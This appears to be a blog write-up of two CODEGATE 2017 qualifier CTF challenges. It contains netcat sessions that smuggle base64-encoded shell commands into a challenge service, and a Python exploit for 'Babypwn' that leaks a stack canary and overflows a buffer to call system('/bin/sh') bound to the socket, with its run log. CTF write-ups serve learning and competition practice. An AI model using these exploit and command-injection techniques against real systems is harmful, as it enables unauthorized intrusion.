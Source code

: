 ```yaml
---
layout : post
title : CODEGATE 2017 prequals writeup
---
```


## BabyMISC

```

$ (echo TjBfbTRuX2M0bDFfYWc0aW5fWTNzdDNyZDR5OigA; echo aa; echo aaa; echo 'grep *' | base64 ; cat) | nc 110.10.212.138 19091
[*] Ok, Let's Start. Input the write string on each stage!:)
[*] -- STAGE 01 ----------
[+] KEY : H??x?H)?H?H???L??H)??1??D
[+] Input > 
[*] USER : N0_m4n_c4l1_ag4in_Y3st3rd4y:(
[+] -- NEXT STAGE! ----------
[*] -- STAGE 02 ----------
[+] Input 1 
[+] Input 2 
[+] -- NEXT STAGE! ----------
[*] -- STAGE 03 ----------
[+] Ok, It's easy task to you, isn't it? :)
[+] So I will give a chance to execute one command! :)
[*] Input > 
#                                                               echo -n Z3JlcCAqCg== | base64 -d | sh

[tsun@host-163-44-172-213 ~]$ (echo TjBfbTRuX2M0bDFfYWc0aW5fWTNzdDNyZDR5OigA; echo aa; echo aaa; echo 'head *' | base64 ; cat) | nc 110.10.212.138 19091
[*] Ok, Let's Start. Input the write string on each stage!:)
[*] -- STAGE 01 ----------
[+] KEY : H??x?H)?H?H???L??H)??1??D
[+] Input > 
[*] USER : N0_m4n_c4l1_ag4in_Y3st3rd4y:(
[+] -- NEXT STAGE! ----------
[*] -- STAGE 02 ----------
[+] Input 1 
[+] Input 2 
[+] -- NEXT STAGE! ----------
[*] -- STAGE 03 ----------
[+] Ok, It's easy task to you, isn't it? :)
[+] So I will give a chance to execute one command! :)
[*] Input > 
#                                                               echo -n aGVhZCAqCg== | base64 -d | sh
FLAG{Nav3r_L3t_y0ur_L3ft_h4nd_kn0w_wh4t_y0ur_r1ghT_h4nd5_H4ck1ng}

```


## Babypwn

{% highlight python %}

from No___Op import *

if len(sys.argv) > 1:
    target = '110.10.212.130:8889'

else:
    target = 'localhost:8181'

c = Pwning( target )

plt_system = 0x08048620 #+ 0x10

c.sendall('1')
time.sleep(1)
c.sendall('a' * 0x28)
c.read_until('a' * 28 + '\n')
canary = u32('\x00' + c.recv(3))

succ('canary: ' + hex(canary))

c.sendall('1')
time.sleep(1)
c.sendall('a' * (0x28 + 4 + 4 + 3))
c.read_until('a' * (0x28 + 4 + 4 + 3) + '\n')
addr_stack = u32(c.recv(4)) - 0x174 # buffer

succ('stack_addr: ' + hex(addr_stack))

payload  = ''
payload += 'a' * (40 - len(payload))
payload += p32(canary)
payload += 'a' * 12
payload += p32(plt_system)
payload += 'gomi'
payload += p32(addr_stack + len(payload) + 4)
payload += '/bin/sh <&4 >&4 2>&4;'
payload += 'c' * (0x64 - len(payload))

c.sendall('1')
time.sleep(0.5)
c.sendall(payload)
time.sleep(0.5)
c.sendall('3')

c.shell()

{% endhighlight %}

{% highlight sh %}

$ python exp.py r
[*]Connecting "110.10.212.130:8889"...
[+]Connection success!
[+]canary: 0xcc781900
[+]stack_addr: 0xffca6f34
*** 4ll y0u n33d i5 5HELL! ***


Time Out!
ls
babypwn
flag

cat flag
FLAG{Good_Job~!Y0u_@re_Very__G@@d!!!!!!^.^}
exit
*** Connection closed by remote host ***

{% endhighlight %}
